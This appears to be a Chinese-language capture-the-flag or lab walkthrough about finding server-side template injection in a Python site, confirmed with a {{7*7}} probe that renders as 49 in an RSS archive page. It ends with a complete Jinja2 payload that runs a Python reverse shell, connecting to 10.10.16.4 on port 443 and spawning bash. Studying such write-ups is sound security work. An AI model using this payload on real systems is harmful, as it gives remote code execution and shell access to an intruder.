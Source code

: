 发现这个http server其实是python

我们nmap探测到的80的http server是 Apache httpd 2.4.41

说明其实是两个不同的站点

python网站有可能会出现服务器端模板注入


服务器端模板注入，本质上是用户的输入被当初了代码执行

[hacktrick](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

> A server-side template injection occurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side


如何测试？

参考hacktrick里面测试的payload，我们可以分别在title和Content做测试

比如：

title：```{{7*7}}```

Content:```${7*7}```

注意提交后的回显页面没有成功显示注入，但是在```/archive```返回的xml页面里，是可以回显上面的注入的

```
<?xml version="1.0" encoding="UTF-8" ?>
	<rss version="2.0">
	<channel>
 	<title>Archive</title>
 	<item><title>49</title></item>

			</channel>

```

由上可知。title里面的```7*7```被当成了python代码执行



{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"10.10.16.4\",443)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}